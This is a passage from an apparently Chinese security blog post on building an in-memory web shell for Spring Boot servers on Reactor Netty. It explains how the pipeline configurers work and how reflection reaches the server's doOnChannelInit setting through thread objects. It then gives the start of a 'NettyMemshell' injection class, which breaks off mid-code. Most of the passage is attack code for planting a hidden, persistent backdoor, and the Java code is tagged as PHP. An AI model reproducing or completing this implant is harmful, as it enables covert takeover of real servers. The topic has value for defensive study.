 ```php
        // 合并成新的configurer  
        return new ReactorNetty.CompositeChannelPipelineConfigurer(newConfigurers);  
    }  
}
```

`CompositeChannelPipelineConfigurer`会循环调用所有合并进来`configurer`来对`pipeline`添加`handler`。

```php
// reactor.netty.ReactorNetty.CompositeChannelPipelineConfigurer  
static final class CompositeChannelPipelineConfigurer implements ChannelPipelineConfigurer {  
        final ChannelPipelineConfigurer\[\] configurers;  
​  
        CompositeChannelPipelineConfigurer(ChannelPipelineConfigurer\[\] configurers) {  
            this.configurers \= configurers;  
        }  
​  
        public void onChannelInit(ConnectionObserver connectionObserver, Channel channel, @Nullable SocketAddress remoteAddress) {  
            ChannelPipelineConfigurer\[\] var4 \= this.configurers;  
            int var5 \= var4.length;  
            // 循环调用所有configurer对pipeline设置handler  
            for(int var6 \= 0; var6 < var5; ++var6) {  
                ChannelPipelineConfigurer configurer \= var4\[var6\];  
                configurer.onChannelInit(connectionObserver, channel, remoteAddress);  
            }  
​  
        }  
}
```

因此我们可以通过修改other参数为自己的configurer向pipline中添加内存马。翻阅源码发现`reactor.netty.transport.TransportConfig`类的`doOnChannelInit`属性存储着other参数，我使用[java-object-searcher](https://github.com/c0ny1/java-object-searcher)以`doOnChannelInit`为关键字，定位出了它在线程对象的位置。

```php
TargetObject = {\[Ljava.lang.Thread;}   
   ---> \[3\] = {org.springframework.boot.web.embedded.netty.NettyWebServer$1} = {org.springframework.boot.web.embedded.netty.NettyWebServer$1}   
    ---> val$disposableServer = {reactor.netty.transport.ServerTransport$InetDisposableBind}   
     ---> config = {reactor.netty.http.server.HttpServerConfig}   
        ---> doOnChannelInit = {reactor.netty.ReactorNetty$$Lambda$391/236567414}
```

最终内存马构造如下：

```php
public class NettyMemshell extends ChannelDuplexHandler implements ChannelPipelineConfigurer {  
    public static String doInject(){  
        String msg \= "inject-start";  
        try {  
            Method getThreads \= Thread.class.getDeclaredMethod("getThreads");  
            getThreads.setAccessible(true);  
            Object threads \= getThreads.invoke(null);  
​  
            for (int i \= 0; i < Array.getLength(threads); i++) {  
                Object thread \= Array.get(threads, i);  
                if (thread != null && thread.getClass().getName().contains("NettyWebServer")) {  
                    Field \_val$disposableServer \= thread.getClass().getDeclaredField("val$disposableServer");  
                    \_val$disposableServer.setAccessible(true);  
                    Object val$disposableServer \= \_val$disposableServer.get(thread);  
                    Field \_config \= val$disposableServer.getClass().getSuperclass().getDeclaredField("config");  
                    \_config.setAccessible(true);  
                    Object config \= \_config.get(val$disposableServer);  
```
